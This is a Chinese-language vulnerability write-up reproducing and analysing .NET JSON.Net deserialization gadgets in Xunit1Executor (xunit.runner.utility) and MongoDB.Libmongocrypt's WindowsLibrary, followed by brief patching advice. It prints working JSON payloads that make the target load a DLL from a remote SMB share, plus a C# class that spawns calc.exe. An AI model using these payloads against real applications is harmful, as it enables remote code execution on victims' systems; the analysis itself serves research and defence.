







Xunit1Executor 和 MongoDB 反序列化漏洞复现和分析

- - -

# Xunit1Executor 和 MongoDB 反序列化漏洞复现和分析

## 一、Xunit1Executor

Xunit.Net 是一款 .NET 平台免费开源的单元测试框架，常用于并行测试和数据驱动测试。目前支持 .Net Framework、.Net Core、.Net Standard、UWP、Xamarin 等平台。这个组件中的 WindowsLibrary 类在反序列化时可加载 UNC 路径下的非托管 dll，从而触发任意命令执行漏洞，下面我们将详细介绍漏洞原理及复现过程。

### 漏洞复现

xunit 组件可以在 Nuget 上获取，打开项目包管理器，浏览名为“xunit.runner.utility”的包，点击安装即可。接着使用 Ysoserial 生成 Payload，具体 Payload 代码如下所示

```plain
{
    '$type':'Xunit.Xunit1Executor, xunit.runner.utility.net',
    'useAppDomain':true,
    'testAssemblyFileName':'\\192.168.101.86\\Poc\\xunit.dll'
}
```

上述代码通过远程SMB协议建立主机之间的通信后，再加载基于C#实现的托管xunit.dll文件，而xunit.dll实现上需要Executor类

```plain
public class Executor
    {
        public Executor(string poc)
        {
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c calc.exe");
            Process proc = new Process();
            proc.StartInfo = psi;
            proc.Start();
        }
    }
```

最后调用 JSON.Net 反序列化执行，虽然抛出异常，但不影响触发命令执行，如图所示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125123928-b954547a-bb3b-1.png)

### 漏洞分析

反编译打开 xunit.runner.utility.dll 分析源代码，快速定位到 Xunit1Executor 类，该类创建对象时会调用默认的构造方法，

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125123945-c3ae291e-bb3b-1.png)

图中 Xunit1Executor 构造方法创建一个新的 AppDomain 用来加载单元测试用例提供的.NET 程序集。程序集的路径由 Xunit1Executor.GetXunitAssemblyPath 方法获取，如图所示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125123955-c973d8d0-bb3b-1.png)

从代码实现上可以看出加载的文件名为“xunit.dll”，因此我们在反序列化构建 Payload 时也需要提供同名的 dll 文件。接着构造方法里使用 CreateObject 方法从 xunit.dll 程序集中创建类型为 Xunit.Sdk.Executor 的对象

```plain
this.executor = this.CreateObject("Xunit.Sdk.Executor", new object[]
{
    testAssemblyFileName
});
```

跟进 CreateObject 方法的定义，发现是定义在 IAppDomainManager 接口中，AppDomainManager\_AppDomain 类实现了 IAppDomainManager 接口，也重写了 CreateObject 方法，如图所示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125124009-d23b28a6-bb3b-1.png)

内部还是调用了 AppDomain.CreateInstanceAndUnwrap 方法在 AppDomain 中创建了 Xunit.Sdk.Executor 对象，AppDomain.CreateInstanceAndUnwrap 方法可以通过反射程序集的方式创建对象从而执行命令。

## 二、MongoDB

MongoDB.Libmongocrypt 是 MongoDB 的一个库，集成于 MongoDB .NET 版本的驱动程序，常用于提供端到端的加密支持，达到保护 MongoDB 数据在传输和存储时的安全性。这个组件中的 WindowsLibrary 类在反序列化时可加载 UNC 路径下的非托管 dll，从而触发任意命令执行漏洞，

### 漏洞复现

这个组件包可以在 Nuget 上获取，打开项目包管理器，浏览名为“MongoDB.Libmongocrypt”的包，点击安装即可。我们使用 Ysoserial 生成 Payload，具体 Payload 代码如下所示

```plain
{
    '$type':'MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary, MongoDB.Libmongocrypt, PublicKeyToken=null',
    'path':'\\192.168.101.86\\Poc\\calc.dll'
}
```

上述代码通过远程 SMB 协议建立主机之间的通信后，再加载基于 C++ 实现的非托管 calc.dll 文件，最后 JSON.Net 反序列化执行成功触发命令执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125124021-d934f344-bb3b-1.png)

### 漏洞分析

反编译打开 MongoDB.Libmongocrypt.dll 分析源代码，快速定位到 WindowsLibrary 类，该类创建对象时会调用其构造方法并传入一个字符型参数 path，如图所示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125124033-e01bcaca-bb3b-1.png)

我们观察到内部通过 LibraryLoader.WindowsLibrary.LoadLibrary 方法加载参数 path，查看 LoadLibrary 的声明发现就是调用 Windows API LoadLibrary 函数，因此可以执行非托管 dll，如图所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125124043-e5fa87a6-bb3b-1.png)

至此两个.NET 组件出现的漏洞分析完毕，

## 修复建议

以下是一些修复.NET 开源组件漏洞的建议和防御措施。持续关注各个开源组件的安全更新和发布，及时升级到最新的版本。开源社区通常会修复漏洞并发布更新，使用最新版本能够有效地防范已知漏洞。  
针对开源组件提供的配置项，仔细审查并按照最佳实践进行安全配置。避免过于开放的默认设置，尽可能限制组件的权限和功能范围，减少潜在攻击面。

## 小结

本文详细介绍了 2 个.NET 开源组件的安全漏洞，这些漏洞的存在可能导致严重的安全风险，包括远程代码执行等。因此，开发者在使用这些组件时需保持高度警惕，采取积极的安全措施来降低潜在风险。建议开发者密切关注组件的安全公告，及时升级到修复漏洞的最新版本，并按照最佳实践进行安全配置和使用。此外，定期进行安全审查，确保项目中使用的组件不受已知漏洞的影响，有助于提高应用系统的整体安全性。
